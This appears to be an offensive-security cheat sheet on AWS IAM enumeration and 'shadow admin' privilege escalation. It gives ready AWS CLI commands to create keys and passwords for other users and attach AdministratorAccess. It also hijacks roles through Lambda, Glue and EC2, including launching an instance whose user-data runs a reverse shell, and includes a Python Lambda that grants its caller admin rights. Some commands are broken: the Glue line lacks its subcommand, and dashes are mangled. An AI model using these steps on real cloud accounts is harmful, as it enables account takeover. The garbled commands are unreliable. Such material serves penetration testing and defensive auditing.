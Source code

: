 # AWS - Identity & Access Management

## Listing IAM access Keys

```ps1
aws iam list-access-keys
```

## Listing IAM Users and Groups

```ps1
aws iam list-users
aws iam list-groups
```

## Get IAM Details

```ps1
aws iam get-account-authorization-details > iam.json
```

## Assume a Specific Role

```ps1
aws sts assume-role --role-arn arn:aws:iam::${accountId}:role/${roleName} --role-session-name ${roleName}
```

## Login with MFA

Retrieve the MFA device ARN:

```ps1
aws iam list-mfa-devices
```

Then create the session token:

```ps1
aws sts get-session-token --serial-number ${arnMFADevice} --token-code ${MFACode}
```

## Shadow Admin

### Admin equivalent permission

- AdministratorAccess

    ```powershell
    "Action": "*"
    "Resource": "*"
    ```

- **ec2:AssociateIamInstanceProfile** : attach an IAM instance profile to an EC2 instance

    ```powershell
    aws ec2 associate-iam-instance-profile --iam-instance-profile Name=admin-role --instance-id i-0123456789
    ```

- **iam:CreateAccessKey** : create a new access key to another IAM admin account

    ```powershell
    aws iam create-access-key –user-name target_user
    ```

- **iam:CreateLoginProfile** : add a new password-based login profile, set a new password for an entity and impersonate it

    ```powershell
    aws iam create-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
    ```

- **iam:UpdateLoginProfile** : reset other IAM users’ login passwords.

    ```powershell
    aws iam update-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
    ```

- **iam:AttachUserPolicy**, **iam:AttachGroupPolicy** or **iam:AttachRolePolicy** : attach existing admin policy to any other entity he currently possesses

    ```powershell
    aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    aws iam attach-role-policy –role-name role_i_can_assume –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    ```

- **iam:PutUserPolicy**, **iam:PutGroupPolicy** or **iam:PutRolePolicy** : added inline policy will allow the attacker to grant additional privileges to previously compromised entities.

    ```powershell
    aws iam put-user-policy –user-name my_username –policy-name my_inline_policy –policy-document file://path/to/administrator/policy.json
    ```

- **iam:CreatePolicy** : add a stealthy admin policy
- **iam:AddUserToGroup** : add into the admin group of the organization.

    ```powershell
    aws iam add-user-to-group –group-name target_group –user-name my_username
    ```

- **iam:UpdateAssumeRolePolicy** + **sts:AssumeRole** : change the assuming permissions of a privileged role and then assume it with a non-privileged account.

    ```powershell
    aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json
    ```

- **iam:CreatePolicyVersion** & **iam:SetDefaultPolicyVersion** : change customer-managed policies and change a non-privileged entity to be a privileged one.

    ```powershell
    aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/administrator/policy.json –set-as-default
    aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2
    ```

- **lambda:UpdateFunctionCode** : give an attacker access to the privileges associated with the Lambda service role that is attached to that function.

    ```powershell
    aws lambda update-function-code –function-name target_function –zip-file fileb://my/lambda/code/zipped.zip
    ```

- **glue:UpdateDevEndpoint** : give an attacker access to the privileges associated with the role attached to the specific Glue development endpoint.

    ```powershell
    aws glue –endpoint-name target_endpoint –public-key file://path/to/my/public/ssh/key.pub
    ```

- **iam:PassRole** + **ec2:CreateInstanceProfile**/**ec2:AddRoleToInstanceProfile** : an attacker could create a new privileged instance profile and attach it to a compromised EC2 instance that he possesses.

- **iam:PassRole** + **ec2:RunInstance** : give an attacker access to the set of permissions that the instance profile/role has, which again could range from no privilege escalation to full administrator access of the AWS account.

    ```powershell
    # add ssh key
    $ aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –key-name my_ssh_key –security-group-ids sg-123456
    # execute a reverse shell
    $ aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –user-data file://script/with/reverse/shell.sh
    ```

- **iam:PassRole** + **lambda:CreateFunction** + **lambda:InvokeFunction** : give a user access to the privileges associated with any Lambda service role that exists in the account.

    ```powershell
    aws lambda create-function –function-name my_function –runtime python3.6 –role arn_of_lambda_role –handler lambda_function.lambda_handler –code file://my/python/code.py
    aws lambda invoke –function-name my_function output.txt
    ```

    Example of code.py

    ```python
    import boto3
    def lambda_handler(event, context):
        client = boto3.client('iam')
        response = client.attach_user_policy(
        UserName='my_username',
        PolicyArn="arn:aws:iam::aws:policy/AdministratorAccess"
        )
        return response
    ```

- **iam:PassRole** + **glue:CreateDevEndpoint** : access to the privileges associated with any Glue service role that exists in the account.

    ```powershell
    aws glue create-dev-endpoint –endpoint-name my_dev_endpoint –role-arn arn_of_glue_service_role –public-key file://path/to/my/public/ssh/key.pub
    ```

## References

- [Cloud Shadow Admin Threat 10 Permissions Protect - CyberArk](https://www.cyberark.com/threat-research-blog/cloud-shadow-admin-threat-10-permissions-protect/)
